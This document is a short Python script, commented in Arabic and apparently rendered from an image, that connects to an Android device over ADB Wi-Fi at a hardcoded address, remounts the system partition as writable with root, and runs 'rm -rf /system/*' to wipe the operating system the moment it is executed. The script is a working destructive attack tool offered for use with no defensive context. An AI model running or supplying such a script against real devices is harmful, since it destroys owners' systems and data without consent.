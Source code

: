 import subprocess

def wipe_android_system(ip):
    """يتصل بالجهاز عبر ADB Wi-Fi ويحذف النظام بالكامل"""
    try:
        # التحقق من توفر ADB
        subprocess.run(['adb', 'version'], check=True, capture_output=True)

        # الاتصال بالجهاز عن بعد
        subprocess.run(['adb', 'connect', f"{ip}:5555"], check=True)

        # جعل النظام قابل للكتابة
        subprocess.run(['adb', 'shell', 'su -c "mount -o remount,rw /system"'], check=True)

        # حذف ملفات النظام
        subprocess.run(['adb', 'shell', 'su -c "rm -rf /system/*"'], check=True)

        print(f"✅ تم حذف نظام التشغيل من الجهاز: {ip}")
    except subprocess.CalledProcessError as e:
        print(f"❌ خطأ أثناء التنفيذ: {e}")
    except FileNotFoundError:
        print("❌ لم يتم العثور على ADB! تأكد من تثبيته.")

# تشغيل الحذف مباشرة بمجرد تشغيل السكريبت
wipe_android_system("192.168.1.100")  # ضع IP الجهاز هنا
